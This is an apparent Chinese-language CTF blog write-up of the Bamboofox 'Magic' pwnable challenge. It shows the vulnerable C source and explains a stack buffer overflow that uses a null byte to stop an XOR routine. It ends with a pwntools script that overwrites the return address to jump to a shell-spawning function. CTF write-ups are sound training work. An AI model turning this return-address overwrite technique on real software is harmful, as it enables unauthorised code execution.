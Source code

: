 ```yaml
---
title: 'Write-up:: Bamboofox-Wargame'
tags: [BamboofoxCTF, Pwnable, Write-Up]
categories: [CTF]
date: 2019-07-21
---
```


Bamboofox CTF解題記錄，一如往常地到處找題目增進自己打CTF的戰力╰(*°▽°*)╯

<!--more-->

我選擇先從[這裡](https://bamboofox.cs.nctu.edu.tw/courses/2/challenges)開始做

-----

# Writeup #

-----

## Wargame 0-1 Magic [100] ##
>Description
Do you believe in magic?

>Hint
Stack buffer overflow

拿到檔案，magic: ELF 32-bit LSB executable，提示已經告知是Stack buffer overflow了，所以我直接IDA拆開來看了。

![有漏洞的函式Magic()](/images/BamboofoxCTF/Magic/disass.JPG)
然後還有一個never_use()可以用來開shell，所以題目應該是希望我們把ret address指到該函式。

從`ax, [ebp-44h]`可知buffer大小是0x44，然後因為`mov     dword ptr [esp], offset aS ; "%s"`可知scanf()的格式化參數是%s，所以可以用垃圾把Buffer塞爆。

已經了解Buffer overflow成立之後就來建構payload吧! 

需要塞0x44個byte進去把Buffer塞滿，這樣做之後會頂到ebp，所以在額外塞0x4個byte頂過ebp，這邊開始就是return address了! 蓋上never_use()的記憶體位置完成攻擊~
Payload: 0x48個byte + never_use()的位置

其實這樣攻擊是不會成功的，因為還有一個函式被忽略了，do_magic()，題目直接給出source
```c
void do_magic(char *buf,int n)
{
        int i;
        srand(time(NULL));
        for (i = 0; i < n; i++)
                buf[i] ^= rand()%256;
}

void magic()
{
        char magic_str[60];
        scanf("%s", magic_str);
        do_magic(magic_str, strlen(magic_str));
        printf("%s", magic_str);
}
```
如果不對do_magic進行繞過，那payload會直接跟亂數XOR變成垃圾QQ

由呼叫do_magic的地方可知控制XOR的次數是透過strlen()，這個函式會計算字串的字元數，停下來的方法是讀到一個\x00，那我們就提早讓他停下來就好!

所以payload變成: 0x1個byte + \x00 + (0x44 + 0x4 - 0x2) + never_use()的位置

```python Payload.py
from pwn import *


host = 'bamboofox.cs.nctu.edu.tw'
port = 10000

p = process('./magic')

# p = remote(host, port)

p.recvuntil(':')

p.sendline('A')

p.recvuntil(':')

p.sendline('A' + '\x00' + 'A' * 70 + p32(0x8048613))

p.interactive()
```

